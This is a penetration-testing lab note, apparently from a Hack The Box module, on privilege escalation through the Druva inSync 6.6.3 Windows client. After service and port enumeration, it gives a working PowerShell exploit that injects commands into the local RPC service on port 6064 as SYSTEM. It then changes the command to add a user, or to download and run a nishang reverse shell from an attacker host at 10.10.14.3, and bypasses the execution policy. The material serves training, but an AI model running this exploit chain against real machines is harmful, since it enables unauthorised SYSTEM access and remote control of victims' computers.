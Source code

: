 # Vulnerable Services

## Vulnerable Services

which we target third party App running with system privilege

### **Enumerating Installed Programs**

```powershell
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
**Druva inSync 6.6.3**
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

we found all programs are windows program expect **`Druva inSync`** after search we found this by version vulnerable to command injection by RPC service

### **Enumerating Local Ports**

Let's do some further enumeration to confirm that the service is running as expected. A quick look with `netstat` shows a service running locally on port `6064`.

```powershell
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

### **Enumerating Process ID**

Next, let's map the process ID (PID) `3324` back to the running process.

```powershell
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

### **Enumerating Running Service**

At this point, we have enough information to determine that the Druva inSync application is indeed installed and running, but we can do one last check using the `Get-Service` cmdlet.

```powershell
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

## **Druva inSync Windows Client Local Privilege Escalation Example**

### **Druva inSync PowerShell PoC**

this powershell code which exploit bug by open session on port 6064 and send command injection to service

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"  # this is the command will be execute

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

#### **Modifying PowerShell PoC**

For our purposes, we want to modify the `$cmd` variable to our desired command. We can do many things here, such as adding a local admin user (which is a bit noisy, and we want to avoid modifying things on client systems wherever possible) or sending ourselves a reverse shell. Let's try this with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script to our attack box, and rename it something simple like `shell.ps1`. **Open the file,** and append the following at the bottom of the script file **(changing the IP to match our address and listening port as well):**

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modify the `$cmd` variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory.

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

### **Catching a SYSTEM Shell**

```powershell
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process
```

***
